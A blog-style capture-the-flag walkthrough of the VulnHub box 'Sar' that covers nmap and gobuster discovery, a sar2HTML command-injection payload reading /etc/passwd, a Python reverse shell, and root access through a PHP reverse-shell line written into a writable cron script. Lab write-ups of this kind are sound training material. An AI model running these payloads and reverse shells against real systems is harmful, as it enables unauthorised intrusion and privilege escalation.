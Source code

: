 ```yaml
---
layout: single
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the VulnHub box **"Sar"** that exploits sar2HTML via Remote Code Execution (RCE)
<br />

- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 
*Note 1: The IP addresses, URLs, and flags used in this demonstration were specific to the environment at the time of the exploit and will likely be different when another attempt at this box is made.*

*Note 2: There is almost always more than one way to expoit a box (TIMTOWTDI). The demonstration and tools shown here are probably not the only method you can use.*
- - -

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag was found at:** /home/love/Desktop/user.txt

- - -

### step 5 (final): Gain Root
- Search for weak permissions
  - Find a **cron job** is being run as a root user

```
cat /etc/crontab
```

- Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**

*Note: This cronjob is running every 5 minutes*

- Navigate to /var/www/html/ and see what is there

```
cat /var/www/html
ls 
```

- Run cat on finally.sh and see it is calling write.sh

```
cat finally.sh
cat write.sh
```

- write.sh is creating a folder in temp directory
- the command **ls -l** shows we can edit write.sh

```
ls -l
```

- Add a php reverse connection command into write.sh with **echo**

```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

*Note: echo requires a \ in front of a $ and a " for the file to accept it*

- Setup a netcat listner

```
nc -lvp 4444
```

- Wait about 5 mins for cronjob to run again and see the shell open up on the new netcat listner
- **root flag was found at:** /root/root.txt

- - -
### Screenshot Attempt:
![Test](/assets/_stegoview/02-offsec/howto-fork.png) <br>
![Test](_stegoview/02-offsec/howto-fork.png) <br>
![Test](howto-fork.png) <br>
<img src="_stegoview/02-offsec/howto-fork.png" width="400"> <br>
- - -
![Link an image](https://raw.githubusercontent.com/DigitalHammer/DigitalHammer.github.io/master/assets/_stegoview/02-offsec/howto-fork.PNG "Yosemite with me wife")

